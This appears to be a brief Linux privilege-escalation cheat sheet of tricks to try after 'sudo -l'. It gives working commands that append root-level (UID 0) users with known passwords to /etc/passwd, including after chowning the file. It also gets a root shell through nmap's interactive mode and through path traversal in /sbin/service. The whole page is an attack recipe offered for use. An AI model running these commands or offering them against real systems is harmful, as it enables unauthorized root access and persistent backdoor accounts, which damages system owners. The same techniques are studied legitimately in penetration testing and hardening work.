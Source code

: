 Tricks to play after running `sudo -l`
https://gtfobins.github.io/

## Change passwd file
```
hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash
su hack
Password: pass123
```

## Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

## nmap
```
sudo nmap --interactive
!sh
```

## service
```
sudo /sbin/service ../../../bin/bash
```
